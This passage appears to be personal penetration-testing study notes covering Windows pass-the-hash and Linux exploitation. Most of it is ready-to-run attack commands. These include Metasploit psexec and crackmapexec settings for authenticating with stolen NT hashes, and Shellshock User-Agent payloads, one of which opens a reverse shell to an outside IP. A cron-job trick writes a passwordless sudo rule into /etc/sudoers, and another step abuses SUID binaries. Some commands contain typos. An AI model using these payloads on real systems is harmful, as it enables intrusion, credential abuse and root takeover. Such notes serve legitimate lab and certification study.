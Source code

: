 ###### Pass-The-Hash Attacks
- `hashdump` -- copy LM and NT hash
- Using msfconsole module
	- `use exploit/windows/smb/psexec`
	- `LPORT 4422` -- different from meterpreter session
	- `set RHOST [target IP]`
	- `set SMBUser [username]`
	- `set SMBPass [LM:NT for the user or normal password]`
	- `set target Native\ upload`
- Using crackmapexec 
	- `crackmapexec smb [IP] -u [USERNAME] -H "[NT hash]"` -- -H for hash
	- `crackmapexec smb [IP] -u [USERNAME] -H "[NT hash]" -x "[cmd]"`


# Linux

### Frequently Exploited Linux Services

![[Frequently Exploited Linux Services.png]]

### Exploiting Linux Vulnerabilities

###### Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)
- `nmap -sV 10.12.23.2 --script=http-shellshock --script-args "http-shellshock.uri=/urlname.cgi"`
- open burp and send the request to repeater. add the below in User-Agent 
	`() { :; }; echo; echo; /bin/bash -c 'cat /etc/password` -- to check if attack is possible
	`() { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1'` and open `nv -nlvp 9001`
- Using msfconsole
		 use exploit/multi/http/apache_mod_cgi_bash_env_exec
	 set RHOST
	 set TARGETURI /cgipath.cgi
	 exploit

###### Exploiting SAMBA
- it same as [[Assessment Methodologies#SMB(Server Message Block)]] smb 

### Linux Privilege Escalation

###### Linux Kernel Exploits
- GitHub: https://github.com/mzet-/linux-exploit-suggester -- this will enum all the known vulnerability within this particular version of Linux.

###### Exploiting Misconfigured Cron Jobs
- `crontab -l`
- `sudo -l` -- to check if the current user can run any utility
- `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh` -- when you don't have editor

###### Exploiting SUID Binaries
- This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of our attack will depend on the following factors:
	- Owner of the SUID binary – Given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the “root” user or other privileged users.
	- Access permissions – We will require executable permissions in order to execute the SUID binary.
- check `strings file1` weather it is calling other binary or not if it then you can remove the file and `cp /bin/bash file2` and then execute file1

